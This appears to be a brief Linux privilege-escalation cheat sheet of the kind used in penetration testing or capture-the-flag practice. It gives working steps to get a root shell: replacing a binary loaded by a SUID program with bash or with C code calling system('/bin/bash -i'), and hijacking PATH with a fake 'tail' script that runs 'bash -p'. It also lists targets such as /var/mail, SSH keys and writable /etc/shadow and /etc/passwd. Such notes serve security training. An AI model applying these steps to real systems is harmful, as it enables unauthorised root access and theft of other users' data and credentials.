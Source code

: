 Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`

Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime

```sh
strings binary_name
```

**(1) Method**

```sh
cp /bin/bash /path/to/loaded_binary
```

**(2) Method**

Delete the loaded binary and replace with a new one:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    system("/bin/bash -i"); 
    return 0;
}
```

```sh
# Compile
gcc binary.c -o <loaded_binary>
# Run the binary
./binary_name
```

### Email

Analyze the email for any sensitive information:

```bash
ls /var/mail
```


### Other

* `sudo -l`
  * setenv?
* SUID/GUID
* Look for capabilities
* History Files
* Docker group
* Cron jobs
* SSH Keys
* PATH
* NFS
* Writable /etc/shadow
* Writable /etc/passwd
* Are there scripts that use commands?
  * If the command is executed without full path you can modify PATH variable
  * `strings <program_name>`
  * you see `tail -f /var/log/nginx/access.log`
  * ```sh
    #!/bin/bash
    /bin/bash -p
    ```
  * `chmod +x /tmp/tail`
  * `export PATH=/tmp:$PATH`
  * `./<program_name>`